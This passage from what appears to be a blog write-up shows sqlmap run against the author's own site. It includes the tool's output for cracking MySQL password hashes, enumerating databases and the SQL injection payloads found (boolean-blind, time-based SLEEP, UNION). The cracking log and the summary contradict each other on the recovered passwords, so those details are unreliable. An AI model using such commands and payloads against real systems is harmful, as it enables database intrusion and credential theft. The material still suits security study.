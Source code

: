do you want to use common password suffixes? (slow!) [y/N] N
[09:27:03] [INFO] starting dictionary-based cracking (mysql_passwd)
[09:27:03] [WARNING] multiprocessing hash cracking is currently not supported on this platform
[09:27:46] [INFO] cracked password 'redhat' for user 'root'                                                                                                                                   
[09:27:57] [INFO] cracked password 'csvgraph' for user 'csvgraph'                                                                                                                             
[09:27:57] [INFO] cracked password 'servicehour' for user 'servicehour'                                                                                                                       
database management system users password hashes:                                                                                                                                             
[*] csvgraph [1]:
    password hash: *B4B11C5B0AB0727F85786EDA167AD15BCA5914CF
    clear-text password: oranges
[*] debian-sys-maint [1]:
    password hash: *B4B11C5B0AB0727F85786EDA167AD15BCA5914CF
[*] phpmyadmin [1]:
    password hash: *B4B11C5B0AB0727F85786EDA167AD15BCA5914CF
    clear-text password: oranges
[*] root [1]:
    password hash: *B4B11C5B0AB0727F85786EDA167AD15BCA5914CF
    clear-text password: oranges
[*] servicehour [1]:
    password hash: *B4B11C5B0AB0727F85786EDA167AD15BCA5914CF
    clear-text password: oranges

[09:27:57] [INFO] fetched data logged to text files under '/root/.sqlmap/output/bimpra.tk'

[*] shutting down at 09:27:57

root@ip-172-31-32-255:/var/www/html/sqlmap# 
{% endhighlight %}

This is too much classified information. The next run exposed all my databases:

{% highlight %}
root@ip-172-31-32-255:/var/www/html/sqlmap# python sqlmap.py -u "http://bimpra.tk/test.php?id=1" -z "ign,bat" --dbs
[09:30:45] [WARNING] detected ambiguity (mnemonic 'ign' can be resolved to: 'ignore-401', 'ignore-proxy'). Resolved to shortest of those ('ignore-401')
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-201512030967}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 09:30:45

[09:30:46] [INFO] resuming back-end DBMS 'mysql' 
[09:30:46] [INFO] testing connection to the target URL
[09:30:46] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=0 AND 4390=4390

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: id=0 AND (SELECT * FROM (SELECT(SLEEP(5)))qsxk)

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns